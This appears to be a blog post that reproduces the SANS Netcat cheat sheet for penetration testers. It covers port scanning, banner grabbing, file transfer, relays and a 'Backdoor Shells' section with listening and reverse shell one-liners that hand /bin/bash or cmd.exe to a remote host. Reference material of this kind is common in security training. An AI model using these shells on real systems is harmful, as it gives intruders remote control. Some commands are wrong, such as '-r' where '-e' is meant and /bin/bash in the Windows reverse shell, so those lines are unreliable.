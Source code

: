 ```yaml
---
layout: post
title: "Netcat Cheat Sheet"
date: 2016-05-22 22:12:33 -0700
categories: netcat, pentest
---
```

[Netcat][netcat-link] is considered to be the TCP/IP swiss army knife and is capable of writing data across the network. Its ability to create a connection to almost anything makes it an easy to use utility that is part of any infosec professionals toolbox. This cheat sheet provides tips and tricks for Netcat on both Linux and Unix.

All credit for putting together this cheat sheet goes to Ed Skoudis and [SANS][sans-link]

## Fundamentals

#### Netcat client
{% highlight bash %}
nc [TargetIPaddr] [port]
{% endhighlight %}
Connect to an arbitrary port [port] at IP Address [TargetIPaddr]

#### Netcat listener
{% highlight bash %}
nc -l -p [LocalPort]
{% endhighlight %}
Create a Netcat listener on arbitrary local port [LocalPort]

### File Transfer

#### Push a file from client to listener
{% highlight bash %}
nc -l -p [LocalPort] > [outfile]
{% endhighlight %}
Listen on [localPort], store results in [outfile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] < [infile]
{% endhighlight %}
Push [infile] to [TargetIPaddr] on [port]

#### Pull file from listener back to client
{% highlight bash %}
nc -l -p [LocalPort] < [infile]
{% endhighlight %}
Listen on [LocalPort], prep to push [infile]

{% highlight bash %}
nc -w3 [TargetIPaddr] [port] > [outfile]
{% endhighlight %}
Connect to [TargetIPaddr] on [port] and retrieve [outfile]

### TCP Port Scanner

#### Port scan an IP Address
{% highlight bash %}
nc -v -n -z -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range from [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v on Linux, -vv on Windows), not resolving names (-n), without
sending any data (-z), and waiting no more than 1 second for a connection to occur (-w1)

The randomized ports (-r) switch can be used to choose port numbers randomly in the range

### TCP Banner Grabber

#### Grab the banner of TCP services running on an IP address from Linux
{% highlight bash %}
echo "" | nc -v -n -w1 [TargetIPaddr] [start_port]-[end_port]
{% endhighlight %}
Attempt to connect to each port in a range form [end_port] to [start_port] on IP Address
[TargetIPaddr] running verbosely (-v), not resolving names (-n), and waiting no more than 1 second
for a connection to occur (-w1). Then send a blank string to the open port and print out any banner
received in response

Add -r to randomize destination ports within the range

Add -p [port] to specify a source port

### Backdoor Shells

#### Listening backdoor shell on Linux
{% highlight bash %}
nc -l -p [LocalPort] -e /bin/bash
{% endhighlight %}

#### Listening backdoor shell on Windows
{% highlight bash %}
nc -l -p [LocalPort] -e cmd.exe
{% endhighlight %}

Create a shell on a local port [LocalPort] that can then be accessed using a fundamental
Netcat client

#### Reverse backdoor shell on Linux
{% highlight bash %}
nc [YourIPaddr] [port] -r /bin/bash
{% endhighlight %}

#### Reverse backdoor shell on Windows
{% highlight bash %}
nc [YourIPaddr] [port] -e /bin/bash
{% endhighlight %}

Create a reverse shell that will attempt to connect to [YourIPaddr] on a local [port]. This shell can then be captured on local port [port]. This shell can then be captured using a fundamental netcat listener

### Netcat Relays on Linux
To begin, create a FIFO (named pipe) called backpipe:
{% highlight bash %}
cd /tmp
mknod backpipe p
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
nc -l -p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
client connected to [TargerIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
nc -l -p [LocalPort_1] 0<backpipe | nc -l -p [LocalPort_2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from any connection on [LocalPort_1] to any
connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
nc [PreviousHopIPaddr] [port] 0<backpipe | [NextHopIPaddr] [port2] | tee backpipe
{% endhighlight %}

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]

### Netcat Relays on Windows
To begin, enter a temporary directory where we will create .bat files:
{% highlight bash %}
cd c:\temp
{% endhighlight %}

#### Listener-to-Client Relay
{% highlight bash %}
echo nc [TargetIPaddr] [port] > relay.bat
nc -l -p [LocalPort] -e relay.bat
{% endhighlight %}

Create a relay that sends packets from the local port [LocalPort] to a Netcat
Client connected to [TargetIPaddr] on port [port]

#### Listener-to-Listener Relay
{% highlight bash %}
echo nc -l -p [LocalPort_2] > relay.bat
nc -l -p [LocalPort_1] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from any connection on [LocalPort_1] to
any connection on [LocalPort_2]

#### Client-to-Client Relay
{% highlight bash %}
echo nc [NextHopIPaddr] [port2] > relay.bat
nc [PreviosHopIPaddr] [port] -e relay.bat
{% endhighlight %}

Create a relay that will send packets from the connection to [PreviousHopIPaddr]
on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2]

### Netcat Command Flags
{% highlight bash %}
nc [options] [TargetIPaddr] [ports(s)]
{% endhighlight %}

The [TargetIPaddr] is simply the other side's IP address or domain name. It is
required in client mode of course (because we have to tell the client where to
connect), and is optional in listen mode.

-l : Listen mode (default is client mode)

-L : Listen harder (supported only on Windows version of Netcat). This     option makes Netcat a persistent listener which starts listening again after a client disconnects

-u : UDP mode (default is TCP)

-p : Local port (In listen mode, this is the port listened on. In client mode, this is the source port for all packets sent)

-e : Program to execute after connection occurs, connecting STDIN and STDOUT to the program

-n : Don't perform DNS lookups on names of machines on the other side

-z : Zero-I/O mode (Don't send any data, just emit a packet without payload)

-wN : Timeout for connects, waits for N seconds after closure of STDIN. A Netcat listener with this option will wait for N seconds to make a connection. If the connection doesn't happen in that time, Netcat stops running.

-v : Be verbose, printing out messages on Standard Error, such as when a connection occurs

-vv : Be very verbose, printing even more details on Standard Error

[netcat-link]: https://en.wikipedia.org/wiki/Netcat
[sans-link]: https://www.sans.org/